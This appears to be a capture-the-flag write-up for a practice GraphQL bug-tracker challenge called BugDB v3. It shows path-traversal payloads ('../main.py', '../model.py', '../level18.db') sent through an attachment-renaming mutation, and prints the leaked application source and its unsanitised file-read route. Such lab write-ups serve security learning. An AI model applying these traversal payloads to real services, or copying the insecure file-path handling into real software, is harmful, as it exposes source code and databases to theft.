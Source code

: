 # BugDB v3 - FLAG0

## 0x00 Overview

Pretty much same as [BugDB v1][1] and [v2][2]. But this one also need to combine with arbitary file reading.

## 0x01 Take a Tour

### query

There is attachments available. But initially they are all empty.

```graphql
query{
  user{
    edges{
      node{
        id
        username
        bugs{
          edges{
            node{
              id
              private
              reporterId
              attachments{
                edges{
                  node{
                    id
                    bugId
                    filename
                  }
                }
              }
            }
          }
        }
      }
    }
  }
}
```

![](./imgs/query.jpg)

### attachFile

Try attach a file.

```graphql
mutation{
  attachFile(bugId:1, contents:"test"){
    ok
  }
}
```

![](./imgs/attachFile.jpg)

And make a query again, will see a new attachment is available.

![](./imgs/attachment.jpg)

It seems we can read the file somewhere. 

http://127.0.0.1/xxxxxxxxxx/attachments/1

![](./imgs/content.jpg)

So looks like the file name is binding with the id.

### modifyAttachment

Try modify filename.

```graphql
mutation{
  modifyAttachment(id:1, filename:"../main.py"){
    ok
  }
}
```

![](./imgs/modifyAttachment.jpg)

And make a query again, will see file name is changed to **../main.py**.

![](./imgs/filename.jpg)

Go read the attachment again.

http://127.0.0.1/xxxxxxxxxx/attachments/1

![](./imgs/main.jpg)

Here we got the whole [main.py](./main.py) file.

```python
from flask import Flask, abort, redirect, request, Response 
from flask_graphql import GraphQLView 
from model import db_session, Attachment 
from schema import schema 

app = Flask(__name__) 

@app.route('/') 
def main(): 
  return 'GraphiQL' 

@app.route('/attachment/')
@app.route('/attachments/') 
def attachment(id): 
  attachment = Attachment.query.filter_by(id=id).first() 
  return file('attachments/%s' % attachment.filename, 'r').read() 

app.add_url_rule('/graphql', view_func=GraphQLView.as_view('graphql', schema=schema, graphiql=True, context={'session': db_session})) 

if __name__ == "__main__": 
  app.run(host='0.0.0.0', port=80) 
```

### Read model

It looks **model** contains some interesting thing with **db_session**. Try read this file again.

```graphql
mutation{
  modifyAttachment(id:1, filename:"../model.py"){
    ok
  }
}
``` 

Go read the attachment again.

http://127.0.0.1/xxxxxxxxxx/attachments/1

![](./imgs/model.jpg)

Here we got the [model.py](./model.py) file.

```python
from sqlalchemy import create_engine 
from sqlalchemy.ext.declarative import declarative_base 
from sqlalchemy.orm import relationship, scoped_session, sessionmaker 
from sqlalchemy import Column, DateTime, ForeignKey, Boolean, Integer, Text, func, String 

engine = create_engine('sqlite:///level18.db', convert_unicode=True) 
db_session = scoped_session(sessionmaker(autocommit=False, autoflush=False, bind=engine)) 
Base = declarative_base() 
Base.query = db_session.query_property() 

class User(Base): 
  __tablename__ = 'users' 
  id = Column(Integer, primary_key=True) 
  username = Column(String(255)) 
  password = Column(String(255)) 
  bugs = relationship('Bug', primaryjoin='Bug.reporter_id==User.id') 

class Bug(Base): 
  __tablename__ = 'bugs' 
  id = Column(Integer, primary_key=True) 
  reporter_id = Column(Integer, ForeignKey('users.id')) 
  reporter = relationship(User, primaryjoin=reporter_id == User.id) 
  text = Column(Text(65536)) private = Column(Boolean()) 
  attachments = relationship('Attachment', primaryjoin='Attachment.bug_id==Bug.id') 

class Attachment(Base): 
  __tablename__ = 'attachments' 
  id = Column(Integer, primary_key=True) 
  bug_id = Column(Integer, ForeignKey('bugs.id')) 
  bug = relationship(Bug, primaryjoin=bug_id == Bug.id) 
  filename = Column(String(255))
```

## 0x02 FLAG

There is a **level18.db** file available here. So let go get it again.

```graphql
mutation{
  modifyAttachment(id:1, filename:"../level18.db"){
    ok
  }
}
```

Get the FLAG

![](./imgs/flag.jpg)

[1]: ../../bugdb_v1/flag0
[2]: ../../bugdb_v2/flag0